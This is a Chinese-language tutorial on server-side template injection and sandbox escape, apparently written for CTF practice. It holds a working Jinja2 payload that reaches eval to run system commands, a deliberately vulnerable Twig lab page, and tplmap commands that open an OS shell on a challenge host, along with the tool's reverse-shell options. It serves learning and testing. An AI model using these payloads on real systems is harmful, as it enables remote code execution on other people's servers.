





# SSTI/沙盒逃逸

**啥是SSTI**
SSTI （服务器端模板注入），指服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题.

检测SSTI代码：


**这种模板请不要认为只存在于 Python 中，请记住，凡是使用模板的地方都可能会出现 SSTI 的问题，SSTI 不属于任何一种语言，沙盒绕过也不是**


[文章思路来自大佬文章](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)


**模板引擎**

简单来讲就是：获取数据，讲数据塞到套用的模板里，然后让解析器去将获取到的数据去生成HTML代码，返回给浏览器生成页面。这样就将做好的数据块直接渲染，大大的提升效率。

渲染的区别：

 - 前端渲染：浏览器从服务器获取到信息，可能是 json 等封装好的数据包的数据，也可能是 HTML 的代码。其他都是通过浏览器前端来渲染解析给用户看的，对于后端的压力就小。

 - 后端渲染：浏览器会直接接收到经过服务器计算之后的呈现给用户的最终的HTML字符串，计算就是服务器后端经过解析服务器端的模板来完成的，后端渲染的好处是对前端浏览器的压力较小，主要任务在服务器端就已经完成。

举个例子：

让我们用例子来简析模板渲染。

调用模板：
```html
<html>
<div>{$what}</div>
</html>
```

此时只要对值进行传值，渲染即可。输出。例如：`?what=张三`或者`cookie` 中传值
此时渲染到what变量里，呈现给用户的为

```html
<html>
<div>张三</div>
</html>
```

当然这只是最简单的示例，一般来说，至少会提供分支，迭代。还有一些内置函数等等。

当我们使用用户直接输入的值进行渲染时，会出现奇奇♂怪怪的结果，我们拿 `Twig php`模板举例(其实是我不会搭python的)：
```php
$output = $twig->render( $_GET['name'] , array("name" => $user.name) );
```

这里直接将用户输入的信息发送到 Twig 模板通过 `print或 echo` 打印后。会发现存在 ~~XSS漏洞~~ 。严重的ssti漏洞(代码不规范,开发两行泪)，假设我们的输入为
`?name={{7*7}}`,将会返回49.说明模板执行了我们的代码。
此时，如果用户输入的是恶意代码，同样也会执行。


### SSTI的危害和利用

> 单纯的字符串拼接并不能带来注入问题，关键要看你拼接的是什么，如果是控制语句，就会造成数据域与代码域的混淆，这样就会出洞.

[CTF SSTI(服务器模板注入)](https://www.cnblogs.com/20175211lyz/p/11425368.html)

当然，这种情况一般不属于模板引擎的问题，大多数原因都是开发者并没有很好的处理
可以参考：
[SSTI 怎么产生的](https://www.k0rz3n.com/2018/11/12/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8BSSTI%E6%BC%8F%E6%B4%9E/)
对三种语言进行代码上的解析。

### 手工注入

**常见的模板引擎**

[手工注入的思路](https://xz.aliyun.com/t/3679)

区分使用的模板




- php常用
  - Smarty
    Smarty算是一种很老的PHP模板引擎了，非常的经典，使用的比较广泛

  - Twig(存在漏洞的版本：<=1.9)
    Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid。

  - Blade
    Blade 是 Laravel 提供的一个既简单又强大的模板引擎。

- Java常用
  - JSP
    这个引擎我想应该没人不知道吧，非常的经典

  - FreeMarker
    FreeMarker是一款模板引擎： 即一种基于模板和要改变的数据， 并用来生成输出文本（HTML网页、电子邮件、配置文件、源代码等）的通用工具。 它不是面向最终用户的，而是一个Java类库，是一款程序员可以嵌入他们所开发产品的组件。
  - Velocity

- python 常用
  - Jinja2
    flask jinja2 一直是一起说的，使用非常的广泛
    https://buuoj.cn/challenges
    的 `[BJDCTF 2nd]fake google` 这一关

  - django
    django 应该使用的是专属于自己的一个模板引擎，我这里姑且就叫他 django，我们都知道 django 以快速开发著称，有自己好用的ORM，他的很多东西都是耦合性非常高的，你使用别的就不能发挥出 django 的特性了
  - tornado
    tornado 也有属于自己的一套模板引擎，tornado 强调的是异步非阻塞高并发.


### python

**jinja2**

- jinja2:`尝试{{7*'7'}}回显 7777777`

模板
```
{{ ... }}：装载一个变量，模板渲染的时候，会使用传进来的同名参数这个变量代表的值替换掉。
：装载一个控制语句。
{# ... #}：装载一个注释，模板渲染的时候会忽视这中间的值
```

一些简单注入
```
{{config}}可以获取当前设置
{{self}}
{{self.__dict__._TemplateReference__context.config}} 同样可以看到config
```


变量

在模板中添加变量，可以使用（set）语句。

```

```


```url
{%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```

**flask**


### PHP

**TWIG**


搭建使用 [TWIG v1.11.1版本](https://github.com/twigphp/Twig/releases/tag/v1.11.1)

将下载下来的文件中的`lib`文件提取到PHP目录下


靶场搭建代码:
```php
<?php
//header('Content-type:text/html;charset=utf-8');
@error_reporting(0);

if (isset($_GET['name'])) {
    require_once dirname(__FILE__) . '/lib/Twig/Autoloader.php';
    Twig_Autoloader::register(true);
    try {
        $name = @$_GET['name'];
        $loader = new Twig_Loader_String();
        $twig = new Twig_Environment($loader);
        $result = $twig->render($name);
        echo 'Hello '.$result;
    }catch (Exception $e){
        die('错误提示：'.$e->getMessage());
    }
}
```

访问index.php 输入`?name=张三` 回显出 `hello 张三`。

在目标页面输入


### 使用工具测试注入

[SSTI检测工具](https://github.com/epinna/tplmap)

工具是python2的 (安装的时候可没把我坑惨，好几个教学都说是py3，老复制粘贴了。)

[简单案例](https://www.cnblogs.com/LEOGG321/p/13441283.html)

语句：
```bash
pip install --upgrade pip # 先更新一下pip 如果是最新的就跳过
pip install -r requirements.txt # 安装依赖
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' # 在存在注入或者想要测试的地方加* 和sqlmap很像。

```

可以输入的指令
```
[+] Rerun tplmap providing one of the following options:

    --os-shell				Run shell on the target
    --os-cmd				Execute shell commands
    --bind-shell PORT			Connect to a shell bind to a target port
    --reverse-shell HOST PORT	Send a shell back to the attacker's port
    --upload LOCAL REMOTE	Upload files to the server
    --download REMOTE LOCAL	Download remote files
```

实例:
```bash
python ./tplmap.py -u 'http://4ed902ae-b677-45c3-a0c1-4c8a88af7f07.node3.buuoj.cn/qaq?name=1*' --engine=Jinja2 --os-shell # 指定目标引擎
```


`ls ../`
发现flag
`cat /flag`
找到文件




